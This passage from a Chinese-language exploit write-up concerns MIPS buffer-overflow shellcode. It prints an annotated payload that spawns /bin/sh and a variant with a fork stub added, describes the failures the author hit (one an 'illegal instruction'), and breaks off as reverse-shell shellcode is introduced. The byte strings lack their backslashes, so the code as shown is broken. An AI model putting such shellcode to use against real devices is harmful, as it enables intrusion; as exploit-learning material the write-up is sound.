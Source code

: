 
其中shellcode部分我们采用了上一篇文章中的执行`/bin/sh`的shellcode，如下：

```
payload = "x26x40x08x01"*2
payload += "xffxffx06x28"  # slti $a2, $zero, -1
payload += "x62x69x0fx3c"  # lui $t7, 0x6962
payload += "x2fx2fxefx35"  # ori $t7, $t7, 0x2f2f
payload += "xf4xffxafxaf"  # sw $t7, -0xc($sp)
payload += "x73x68x0ex3c"  # lui $t6, 0x6873
payload += "x6ex2fxcex35"  # ori $t6, $t6, 0x2f6e
payload += "xf8xffxaexaf"  # sw $t6, -8($sp)
payload += "xfcxffxa0xaf"  # sw $zero, -4($sp)
payload += "xf4xffxa4x27"  # addiu $a0, $sp, -0xc
payload += "xffxffx05x28"  # slti $a1, $zero, -1
payload += "xabx0fx02x24"  # addiu;$v0, $zero, 0xfab
payload += "x0cx01x01x01"  # syscall 0x40404
```

结果出现下面的情形：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0180d5ff79cf0083c9.png)

这个时候，我想起一个大神的[一篇文章](https://www.vantagepoint.sg/papers/MIPS-BOF-LyonYang-PUBLIC-FINAL.pdf)，上面采用的方式是先执行一个`fork`然后执行其他的shellcode，我尝试了这个方法，shellcode如下：

```
sc_fork = "x26x40x08x01"*2
sc_fork +="xffxffx11x24x0fx27x04x24x46x10x02x24x0cx01x01x01"
sc_fork+="x65x66xb9x87"
sc_fork+="x2dx10x11x24xa2x0fx02x24x0cx01x01x01xf8xffx40x1c"
payload = "xffxffx06x28"  # slti $a2, $zero, -1
payload += "x62x69x0fx3c"  # lui $t7, 0x6962
payload += "x2fx2fxefx35"  # ori $t7, $t7, 0x2f2f
payload += "xf4xffxafxaf"  # sw $t7, -0xc($sp)
payload += "x73x68x0ex3c"  # lui $t6, 0x6873
payload += "x6ex2fxcex35"  # ori $t6, $t6, 0x2f6e
payload += "xf8xffxaexaf"  # sw $t6, -8($sp)
payload += "xfcxffxa0xaf"  # sw $zero, -4($sp)
payload += "xf4xffxa4x27"  # addiu $a0, $sp, -0xc
payload += "xffxffx05x28"  # slti $a1, $zero, -1
payload += "xabx0fx02x24"  # addiu;$v0, $zero, 0xfab
payload += "x0cx01x01x01"  # syscall 0x40404
```

结果出现如下的情景：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01871d9cc3a0cdddd9.png)

此处的`illegal instruction`是我不能理解的，请各位大神帮忙解答一下。

然后我又尝试了反弹 shell的shellcode，shellcode如下：
